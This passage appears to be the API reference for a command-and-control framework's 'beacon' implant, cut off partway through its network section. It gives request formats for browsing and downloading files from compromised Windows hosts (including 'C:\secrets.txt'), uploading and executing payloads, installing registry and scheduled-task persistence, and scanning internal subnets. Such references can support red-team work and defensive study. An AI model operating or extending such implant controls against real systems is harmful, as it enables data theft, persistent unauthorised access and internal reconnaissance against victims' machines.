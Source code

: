 ### File Operations
```bash
# List directory
POST /api/beacon/{beacon_id}/files
Headers: X-API-Key: <key>
Body: {"operation": "list", "path": "C:\\Users\\"}

# Download file
POST /api/beacon/{beacon_id}/files
Headers: X-API-Key: <key>
Body: {"operation": "download", "path": "C:\\secrets.txt"}

# Upload file
POST /api/beacon/{beacon_id}/files
Headers: X-API-Key: <key>
Body: {"operation": "upload", "path": "C:\\payload.exe"}

# Execute file
POST /api/beacon/{beacon_id}/files
Headers: X-API-Key: <key>
Body: {"operation": "execute", "path": "C:\\script.ps1"}
```

### Persistence Management
```bash
# Install registry persistence
POST /api/beacon/{beacon_id}/persistence
Headers: X-API-Key: <key>
Body: {
  "method": "registry",
  "action": "install"
}

# Install scheduled task persistence
POST /api/beacon/{beacon_id}/persistence
Headers: X-API-Key: <key>
Body: {
  "method": "scheduled_task",
  "action": "install"
}

# Check persistence status
POST /api/beacon/{beacon_id}/persistence
Headers: X-API-Key: <key>
Body: {
  "method": "registry",
  "action": "check"
}
```

### Network Operations
```bash
# Network scan
POST /api/beacon/{beacon_id}/network
Headers: X-API-Key: <key>
Body: {
  "operation": "scan",
  "target": "192.168.1.0/24"
}

# Port scan
POST /api/beacon/{beacon_id}/network
Headers: X-API-Key: <key>
```